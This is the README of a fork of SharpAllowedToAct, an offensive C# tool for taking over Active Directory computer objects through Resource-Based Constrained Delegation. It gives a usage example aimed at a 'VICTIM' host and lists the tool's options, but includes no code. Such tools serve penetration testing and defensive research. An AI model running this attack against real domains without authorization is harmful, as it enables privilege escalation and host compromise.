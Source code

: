 # SharpAllowedToAct

## Fork of SharpAllowedToAct with the following improvments:

- Allows the usage of an existing computer
- Allows to specify credentials
- Shows previous SDLL value and allows to set the security descriptor to a specific value

## Description ##

A C# implementation of a computer object takeover through Resource-Based Constrained Delegation (msDS-AllowedToActOnBehalfOfOtherIdentity) based on the [research](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) by [@elad_shamir](https://twitter.com/elad_shamir).
Credits also to [@harmj0y](https://twitter.com/harmj0y) for his [blog post](http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/) and to [@kevin_robertson](https://twitter.com/kevin_robertson) as I relied on the code for his [Powermad](https://github.com/Kevin-Robertson/Powermad) tool.

## Compile Instructions ## 
Make sure that the necessary NuGet packages are installed successfully and simply build the project.

## Usage

~~~
Usage: SharpAllowedToAct.exe --ComputerAccountName FAKECOMPUTER --ComputerPassword Welcome123! --TargetComputer VICTIM

Options:
-m, --ComputerAccountName
        Set the name of the new machine.
-p, --ComputerPassword
        Set the password for the new machine.
-t, --TargetComputer
        Set the name of the target computer you want to exploit. Need to have write access to the computer object.
-a, --DomainController
        Set the domain controller to use.
-d, --Domain
        Set the target domain.
-c, --Cleanup
        Empty the value of msds-allowedtoactonbehalfofotheridentity for a given computer account (Usage: '--Cleanup true'). Must be combined with --TargetComputer.
-u, --Username
        User with write access at target computer
-s, --SecDescriptor
        Value to update msds-allowedtoactonbehalfofotheridentity for a given computer account (Usage: '--Cleanup true'). Must be combined with --TargetComputer.
-w, --Password
        Password for user with write access at target computer.
~~~


